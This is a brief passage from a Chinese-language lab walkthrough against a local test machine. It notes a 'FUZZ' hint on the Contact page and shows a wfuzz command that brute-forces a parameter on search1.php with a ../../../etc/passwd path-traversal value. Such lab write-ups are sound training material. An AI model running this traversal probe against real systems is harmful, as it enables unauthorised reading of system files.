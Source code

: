 ![image-20250309120429299](./assets/image-20250309120429299.png)

其中Contact页面下的网址存在提示FUZZ



### 利用wfuzz爆破参数

```
wfuzz -u http://192.168.56.147/search1.php?FUZZ=../../../etc/passwd -w /usr/share/wfuzz/wordlist/general/common.txt --hw 288
```

![image-20250309120617514](./assets/image-20250309120617514.png)
